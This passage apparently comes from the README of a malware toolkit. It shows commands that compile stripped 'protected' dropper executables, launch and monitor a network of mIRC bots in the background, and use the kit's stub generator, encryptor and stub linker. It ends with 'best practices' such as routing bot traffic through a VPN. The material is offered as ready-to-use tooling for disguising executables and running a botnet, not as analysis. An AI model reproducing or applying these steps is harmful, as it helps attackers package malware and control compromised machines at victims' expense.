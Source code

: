 ```bash
    g++ -O2 -s -o "protected/${exe}_protected" "protected/${exe}_dropper.cpp"
    
    echo "Created protected/${exe}_protected"
done
```

### **Example 4: mIRC Bot Network**
```bash
# Deploy multiple bots
for i in {1..5}; do
    cp mirc_bot_builder bot_${i}
    nohup ./bot_${i} > bot_${i}.log 2>&1 &
    echo "Started bot_${i} (PID: $!)"
done

# Monitor all bots
watch -n 5 'ps aux | grep mirc_bot_builder'
```

---

## 🔒 Security Best Practices

### **1. Key Management**
```bash
# Never hardcode keys in production
# Use environment variables
export ENCRYPTION_KEY="your_secret_key"
./native_encryptor input_file output_file

# Or use random key generation (recommended)
./native_encryptor input_file output_file  # Uses random key
```

### **2. File Permissions**
```bash
# Secure your executables
chmod 700 native_stub_generator native_encryptor stub_linker
chmod 600 *.cpp *.bin

# Protect sensitive files
chmod 400 secret_document.pdf
```

### **3. Network Security**
```bash
# Use VPN for mIRC bot connections
# Configure firewall rules
sudo ufw allow out 6667  # IRC port
sudo ufw deny out 6667   # Block IRC if needed
```
